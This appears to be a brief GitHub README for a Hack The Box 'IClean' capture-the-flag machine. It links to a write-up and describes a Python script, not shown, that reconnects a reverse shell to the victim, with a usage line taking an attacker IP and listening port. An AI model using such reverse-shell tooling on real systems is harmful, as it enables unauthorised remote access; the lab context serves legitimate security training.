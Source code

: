 # HTB IClean

WriteUp: [https://gunzf0x.github.io/pentesting/posts/iclean/](https://gunzf0x.github.io/pentesting/posts/iclean/)

Simple script to re-connect to the victim machine if we lose the revshell for [HTB IClean](https://www.hackthebox.com/machines/iclean) machine.

## Usage

```shell-session
❯ python3 connect_to_server.py -i <attacker-ip> -p <listening-port>
```
